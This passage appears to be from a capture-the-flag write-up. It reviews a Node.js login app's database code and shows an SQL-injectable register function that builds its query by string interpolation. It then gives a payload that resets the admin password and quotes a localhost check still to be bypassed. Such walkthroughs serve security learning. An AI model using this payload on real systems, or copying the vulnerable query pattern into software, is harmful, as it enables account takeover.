 ```js
            try {
                let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
                resolve((await this.db.run(query)));
            } catch(e) {
                reject(e);
            }
        });
    }

    async isAdmin(user, pass) {
        return new Promise(async (resolve, reject) => {
            try {
                let smt = await this.db.prepare('SELECT username FROM users WHERE username = ? and password = ?');
                let row = await smt.get(user, pass);
                resolve(row !== undefined ? row.username == 'admin' : false);
            } catch(e) {
                reject(e);
            }
        });
    }
}

module.exports = Database;
```

and so we see that it creates the `admin`with a random password, has an `isAdmin`function as well and a `register`function that seems to be vulnerable to `SQLi`as can also be seen with the comment:

```js
async register(user, pass) {
	// TODO: add parameterization and roll public
	return new Promise(async (resolve, reject) => {
		try {
			let query = `INSERT INTO users (username, password) VALUES ('${user}', '${pass}')`;
			resolve((await this.db.run(query)));
		} catch(e) {
			reject(e);
		}
	});
}
```

==> This could then be used to update the password with a payload such as:

```sql
123') ON CONFLICT(username) DO UPDATE SET password = 'admin';--
```

we then need to find a way to bypass this check in the `index.js`file:

```js
router.post('/register', (req, res) => {
	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
			return res.status(401).end();
	}
	let { username, password } = req.body;
	if (username && password) {
			return db.register(username, password)
					.then(()  => res.send(response('Successfully registered')))
					.catch(() => res.send(response('Something went wrong')));
	}
	return res.send(response('Missing parameters'));
});
```
